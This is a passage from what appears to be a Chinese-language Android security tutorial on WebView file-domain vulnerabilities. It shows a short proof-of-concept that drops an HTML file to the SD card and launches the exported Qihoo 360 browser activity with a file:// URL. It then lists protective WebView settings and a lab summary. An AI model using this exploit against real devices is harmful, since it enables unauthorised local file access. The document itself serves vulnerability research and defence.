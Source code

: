 ```
    return ret;
 
}

```

漏洞利用代码：

```
copyFile(); //自定义函数，释放filehehe.html到sd卡上
 
String url = "file:///mnt/sdcard/filehehe.html";
 
Intent contIntent = new Intent();
 
contIntent.setAction("android.intent.action.VIEW");
 
contIntent.setData(Uri.parse(url));
 
Intent intent = new Intent();
 
intent.setClassName("com.qihoo.browser","com.qihoo.browser.BrowserActivity");
 
intent.setAction("android.intent.action.VIEW");
 
intent.setData(Uri.parse(url));
 
this.startActivity(intent);

```

#### [](#（3）安全防护)（3）安全防护

通过以下设置，防止越权访问，跨域等安全问题

```
（1）将不必要导出的组件设置为不导出
（2）如果应用的需要导出包含 Webview的组件，禁止使用File域协议
 setAllowFileAccess(false)
 setAllowFileAccessFromFileURLs(false)
 setAllowUniversalAccessFromFileURLs(false)
 （3）手机厂商把手机内置的WebView与google保持更新一致
 （4）用户随时把手机的内置 webview以及使用的浏览器更新到最新版本

```

[](#六、实验总结)六、实验总结
-----------------

本文总结归纳了 Android 中的权限安全漏洞和安全配置漏洞的详细信息，并拿一些案例进行了复现讲解，本文中只是对大部分这些漏洞的一个归纳总结，里面存在的一些问题就请各位指正了，本文所用到的实验样例和相关附件，后面都会上传 github，详细大家参考：[github 地址](https://github.com/guoxuaa/Android-Vulnerability-Mining/tree/main/1.Android%E5%9B%9B%E5%A4%A7%E7%BB%84%E4%BB%B6%E6%BC%8F%E6%B4%9E%E6%8C%96%E6%8E%98)

[](#七、参考文献)七、参考文献
-----------------
